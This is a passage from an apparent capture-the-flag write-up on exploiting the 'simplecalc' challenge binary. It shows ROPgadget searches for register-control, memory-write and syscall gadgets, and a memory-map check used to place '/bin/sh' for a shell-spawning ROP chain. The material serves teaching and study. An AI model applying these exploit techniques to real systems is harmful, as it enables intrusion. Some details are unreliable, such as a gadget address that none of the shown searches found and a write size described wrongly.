 ```
$ python ROPgadget.py --binary simplecalc | grep "pop rdi ; ret"
0x000000000044bbbc : inc dword ptr [rbx - 0x7bf0fe40] ; pop rdi ; ret
0x0000000000401b73 : pop rdi ; ret
$ python ROPgadget.py --binary simplecalc | grep "pop rsi ; ret"
0x00000000004ac9b4 : add byte ptr [rax], al ; add byte ptr [rax], al ; pop rsi ; ret
0x00000000004ac9b6 : add byte ptr [rax], al ; pop rsi ; ret
0x0000000000437aa9 : pop rdx ; pop rsi ; ret
0x0000000000401c87 : pop rsi ; ret
$ python ROPgadget.py --binary simplecalc | grep "pop rdx ; ret"
0x00000000004a868c : add byte ptr [rax], al ; add byte ptr [rax], al ; pop rdx ; ret 0x45
0x00000000004a868e : add byte ptr [rax], al ; pop rdx ; ret 0x45
0x00000000004afd61 : js 0x4afde1 ; pop rdx ; retf
0x0000000000414ed0 : or al, ch ; pop rdx ; ret 0xffff
0x0000000000437a85 : pop rdx ; ret
0x00000000004a8690 : pop rdx ; ret 0x45
0x00000000004b2dd8 : pop rdx ; ret 0xfffd
0x0000000000414ed2 : pop rdx ; ret 0xffff
0x00000000004afd63 : pop rdx ; retf
0x000000000044af60 : pop rdx ; retf 0xffff
0x00000000004560ae : test byte ptr [rdi - 0x1600002f], al ; pop rdx ; ret
```

So we can see the gadgets for controlling the four registers are at `0x44db34`, `0x401b73`, `0x401c87`, and `0x437a85`. Now we need a gadget that will write an eight byte value to a memory region. For this I would like to start my search by searching through the gadgets with `mov` in them:

```
$ python ROPgadget.py --binary simplecalc | grep "mov" | less
```

after a bit of searching, we find this gadget:

```
0x000000000044526e : mov qword ptr [rax], rdx ; ret
```

This gadget will move the four byte value from `rdx` to whatever memory is pointed to by `rax`. This is exactly what we need, and a bit convenient since we already have the gadgets for those two registers and this gadget doesn't do anything else that we need to worry about. The last gadget we need will be a `syscall` gadget:

```
$ python ROPgadget.py --binary simplecalc | grep ": syscall"
0x0000000000400488 : syscall
```

There are two more things we need to figure out. The first is where in memory we will write the string `/bin/sh`. Let's check the memory mappings while the binary is running:

```
gef➤  vmmap
Start              End                Offset             Perm Path
0x0000000000400000 0x00000000004c1000 0x0000000000000000 r-x /Hackery/pod/modules/bof_static/bkp16_simplecalc/simplecalc
0x00000000006c0000 0x00000000006c3000 0x00000000000c0000 rw- /Hackery/pod/modules/bof_static/bkp16_simplecalc/simplecalc
0x00000000006c3000 0x00000000006c6000 0x0000000000000000 rw-
0x0000000001971000 0x0000000001994000 0x0000000000000000 rw- [heap]
0x00007fffbde39000 0x00007fffbde5a000 0x0000000000000000 rw- [stack]
0x00007fffbdfe6000 0x00007fffbdfe9000 0x0000000000000000 r-- [vvar]
0x00007fffbdfe9000 0x00007fffbdfeb000 0x0000000000000000 r-x [vdso]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 r-x [vsyscall]
gef➤  x/g 0x6c0000
0x6c0000: 0x200e41280e41300e
gef➤  x/20g 0x6c0000
0x6c0000: 0x200e41280e41300e  0x0e42100e42180e42
0x6c0010: 0x00000000000b4108  0x0000d0a40000002c
0x6c0020: 0x0000006cfffd1fd0  0x080e0a69100e4400
```